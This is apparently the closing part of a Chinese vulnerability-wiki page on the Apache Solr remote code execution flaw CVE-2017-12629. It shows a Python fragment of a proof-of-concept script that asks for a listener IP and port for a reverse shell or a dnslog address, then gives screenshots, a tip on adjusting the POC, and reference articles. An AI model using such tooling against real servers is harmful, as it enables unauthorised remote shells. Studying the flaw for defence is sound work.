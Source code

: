 ```python
            IP   = str(input("\033[35m请输入监听IP   >>> \033[0m"))
            PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
            POC_3(target_url, core_name, n, IP, PORT)
        elif cmd == "dnslog":
            dnslog_url = str(input('\033[35m请输入你的dnslog地址：\033[0m'))
            POC_2(target_url, core_name, dnslog_url, n)
```

![](http://wikioss.peiqi.tech/vuln/solr-15.png)

![](http://wikioss.peiqi.tech/vuln/solr-14.png)

> [!NOTE]
>
> 如果shell或dnslog无反应，可以选择更改一下POC的部分参数执行需要的代码

## 参考文章

[Apache Solr远程代码执行漏洞（CVE-2017-12629）从利用到入侵检测](https://www.freebuf.com/sectool/159970.html)

[cve-2017-12629 apache solr xxe & rce 漏洞分析](https://blog.csdn.net/whatday/article/details/106974271?utm_medium=distribute.pc_relevant.none-task-blog-title-7&spm=1001.2101.3001.4242)

